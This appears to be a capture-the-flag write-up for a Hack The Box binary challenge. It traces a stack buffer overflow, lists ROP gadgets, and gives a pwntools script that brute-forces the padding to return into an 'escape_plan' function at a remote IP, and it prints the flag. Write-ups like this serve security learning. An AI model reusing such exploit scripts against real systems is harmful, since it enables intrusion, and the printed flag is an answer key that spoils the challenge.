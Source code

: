 ```yaml
---
ai_date: 2025-04-27 05:16:28
ai_summary: Exploited stack-based buffer overflow with ROP to jump to 'escape_plan' at 0x00401255, using 'A' repeated N times and a crafted RET address.
ai_tags:
  - rop
  - bof
  - ret2addr
created: 2024-07-17T02:27
points: 975
solves: 65
tags:
  - rop
updated: 2025-07-14T09:46
---
```


We can trace where `flag.txt` is being read with xrefs.
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1721197843/2024/07/e62b4570083b8286b45a72507f1b0359.png)

We have to jump to `0x00401255` `escape_plan`.

Reading `main`.

```cpp
iVar1 = strncmp(s1, "69", 2);
if (iVar1 != 0) {
	iVar1 = strncmp(s1, "069", 3);
	if (iVar1 != 0) goto code_r0x004015da;
}
```

Using `ROPgadget` to get the ret addresses.

```
Gadgets information
============================================================
0x0000000000401016 : ret
0x0000000000401112 : ret 0x2e

Unique gadgets found: 2
```

## Solve Script

Payload is `'A' * N + RET + 0x00401255`.

```python
from pwn import *
context.log_level = 'error'

for i in range(100):
    if i % 100 == 0:
        print(i)
    conn = remote("94.237.53.113", 52654)
    conn.recvuntil(b'>> ')
    conn.sendline(b'069')
    conn.recvuntil(b'>> ')
    conn.sendline(b'A'*i+p64(0x401016)+p32(0x00401255))
    data = conn.recvall()
    conn.close()
    if data != b'\n\x1b[1;31m[-] YOU FAILED TO ESCAPE!\n\n' and data != b'':
        print('\n', i, data)
    print('.', end='', flush=True)
    i += 1
# HTB{3sc4p3_fr0m_4b0v3}
```